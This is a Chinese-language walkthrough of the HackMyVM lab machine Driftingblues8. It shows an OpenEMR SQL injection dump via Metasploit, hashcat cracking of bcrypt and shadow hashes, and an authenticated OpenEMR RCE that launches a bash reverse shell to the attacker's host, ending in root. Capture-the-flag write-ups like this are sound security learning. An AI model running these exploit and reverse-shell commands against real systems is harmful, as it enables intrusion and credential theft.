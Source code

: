 # Driftingblues8

2024-12-28 https://hackmyvm.eu/machines/machine.php?vm=Driftingblues8

## IP

192.168.5.40

## Scan

```
PORT   STATE SERVICE
80/tcp open  http
```

只有一个 web 服务，首页显示的 CMS 是 OpenEMR，对其进行目录扫描，发现 http://192.168.5.40/admin.php 页面了，其版本为 5.0.1 (3)，找到几个漏洞利用，但是都需要用户凭据，目前没有：

```
OpenEMR 5.0.1.3 - 'manage_site_files' Remote Code Execution (Authenticated)         | php/webapps/49998.py
OpenEMR 5.0.1.3 - 'manage_site_files' Remote Code Execution (Authenticated) (2)     | php/webapps/50122.rb
OpenEMR 5.0.1.3 - (Authenticated) Arbitrary File Actions                            | linux/webapps/45202.txt
OpenEMR 5.0.1.3 - Authentication Bypass                                             | php/webapps/50017.py
OpenEMR 5.0.1.3 - Remote Code Execution (Authenticated)                             | php/webapps/45161.py
```

在找找其他的利用吧，msf 中有一个 sql 注入的利用，auxiliary/sqli/openemr/openemr_sqli_dump ：

```
set rhosts 192.168.5.40
set TARGETURI /
run
```

最终跑出用户 admin 的密码：

```
+--------------------------------------------------------------+----------+
| password                                                     | username |
+--------------------------------------------------------------+----------+
| $2a$05$.tDgmjTxSmOz8ena6MnN3.2E049sE5jUaknc7aRqOOdQHLX61F.p. | admin    |
+--------------------------------------------------------------+----------+
```

在前面的目录扫描中还发现了一个http://192.168.5.40/wordlist.txt 其中是字典列表。`$2a$` 在 hashcat 中的模式是 3200，使用刚才得到的字典进行破解，得到结果：

```
2a$05$.tDgmjTxSmOz8ena6MnN3.2E049sE5jUaknc7aRqOOdQHLX61F.p.:$HEX[2e3a2e79617272616b2e3a2e3331]
```

将 2e3a2e79617272616b2e3a2e3331 进行十六进制转 10 进制，得到密码：`.:.yarrak.:.31`

然后利用前面找到的 RCE 利用 45161.py，使用 python2 运行：

```
python2 45161.py -u admin -p '.:.yarrak.:.31' -c '/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"' http://192.168.5.40
```

在 kali 上得到了反弹的 shell。

在 home 目录中有一个用户 clapton，但是没权限访问，发现数据库的连接配置文件:

```
cat sites/default/sqlconf.php

$host	= 'localhost';
$port	= '3306';
$login	= 'openemr';
$pass	= 'junno';
$dbase	= 'openemr';
```

但是这个密码不对，尝试其他枚举，sudo、suid、getcap、crontab 等都没发现可利用的地方。发现了一个可读的 shadow 备份文件：/var/backups/shadow.backup：

```
root:$6$sqBC8Bk02qmul3ER$kysvb1LR5uywwKRc/KQcmOMALcqd0NhHnU1Wbr9NRs9iz7WHwWqGkxKYRhadI3FWo3csX1BdQPHg33gwGVgMp.:18742:0:99999:7:::
clapton:$6$/eeR7/4JGbeM7nwc$hANgsvO09hCCMkV5HiWsjTTS7NMOZ4tm8/s4uzyZxLau2CSX7eEwjgcbfwcdvLV.XccVW5QuysP/9JBjMkdXT/:18742:0:99999:7:::
```

使用前面的 wordlist 爆破没成功，最后使用 rockyou 进行爆破得到密码 dragonsblood , 切换到 clapton 用户。

得到了 user flag：

```
clapton@driftingblues:~$ cat user.txt
96716B8151B1682C5285BC99DD4E95C2
```

同时在 home 目录中也有一个 suid 程序 waytoroot，但是没看出利用信息。同时这个目录中还有一个 wordlist.txt 文件。将这个文件传输到 kali 上，看看它能不能破解出 root 的密码。

最终找到了 root 的密码：

```
$6$sqBC8Bk02qmul3ER$kysvb1LR5uywwKRc/KQcmOMALcqd0NhHnU1Wbr9NRs9iz7WHwWqGkxKYRhadI3FWo3csX1BdQPHg33gwGVgMp.:$HEX[2e3a2e796172616b2e3a2e]
```

将其从十六进制转换成字符串，得到密码为: `.:.yarak.:.`

最终获得 root flag：

```
root@driftingblues:~# ls
root.txt
root@driftingblues:~# cat root.txt
E8E7040D825E1F345A617E0E6612444A
```
